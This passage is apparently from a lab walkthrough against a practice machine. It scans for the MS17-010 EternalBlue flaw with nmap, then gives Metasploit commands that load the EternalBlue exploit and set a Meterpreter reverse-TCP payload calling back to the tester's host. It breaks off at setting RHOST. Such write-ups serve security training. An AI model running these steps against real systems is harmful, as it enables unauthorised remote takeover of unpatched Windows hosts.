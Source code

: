![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556860896503_image.png)

*There is quite a bit of information that was returned.*

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556860983905_image.png)

*returns the Eternal Blue “ms17-010” as “VULNERABLE”.*

## nmap with “vuln and safe”
To target this “safe” enumeration to include “vuln” syntax:

    nmap -p 445 --script "vuln and safe" -Pn -n 10.10.10.40

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556861162122_image.png)

# Exploiting
## Metasploit
I know of two ways to launch metasploit:

    msfdb run # loads the postgress server as well.
    msfconsole # stardard launching

Search for Eternal Blue - ms017-010

    search ms17-010

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556862612710_image.png)

Use exploit:

    use exploit/windows/smb/ms17_010_eternalblue

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556862755720_image.png)

show options;

    show options

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556862799716_image.png)

Set payload:

    set payload windows/x64/meterpreter/reverse_tcp

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556862850793_image.png)

Set LHOST

    set LHOST tun0

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556862914682_image.png)

Set RHOST
